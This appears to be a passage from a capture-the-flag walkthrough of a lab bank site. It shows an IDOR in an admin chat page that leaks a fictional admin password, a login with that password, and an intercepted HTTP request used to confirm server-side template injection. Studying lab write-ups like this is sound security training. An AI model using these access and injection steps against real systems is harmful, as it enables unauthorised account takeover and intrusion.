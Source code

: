- When you visit admin subdomain you will see a login page. Login with provided credentials and go to `Messages`. 

---

## 🌐 Web Exploitation 

- In the messages section there is and easy IDOR that will give us admin access.

  ```
  http://admin.cyprusbank.thm/messages/?c=0

  Cyprus National Bank - Admin Chat

  DEV TEAM: Thanks Gayle, can you share your credentials? We need privileged admin account for testing
  
  Gayle Bev: Of course! My password is 'p~]P@5!6;rs558:q'
  
  DEV TEAM: Alright we are trying to implement chat history, everything should be ready in week or so
  
  Gayle Bev: That's nice to hear!
  
  Gayle Bev: Developers implemented this new messaging feature that I suggested! What you guys think?
  
  Greger Ivayla: Looks really cool!
  
  Jemmy Laurel: Hey have you guys seen Mrs. Jacobs recently??
  
  Olivia Cortez: No she hasn't been around for a while
  
  Jemmy Laurel: Oh, is she OK?
  ```
  
- Logout and use newly found credentials to login as admin Greg and get the phone number.

- As admin, you can change usernames and password and that will give us SSTI. In order to confirm it, intercept the request with Burp and remove a password parameter from request then send it.

  ```
  Request:

  POST /settings HTTP/1.1
  Host: admin.cyprusbank.thm
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate, br
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 17
  Origin: http://admin.cyprusbank.thm
  Connection: keep-alive
  Referer: http://admin.cyprusbank.thm/settings
  Cookie: connect.sid=s%3Abiprtej0QHoKj7Dm4jk_nVcRJuihb-Xn.VgPcSlULhT2NSNaN3TfsZtyqoD01cKuLK9Qbfww4LgY
  Upgrade-Insecure-Requests: 1
  Priority: u=0, i
  
  name=a
  ```
  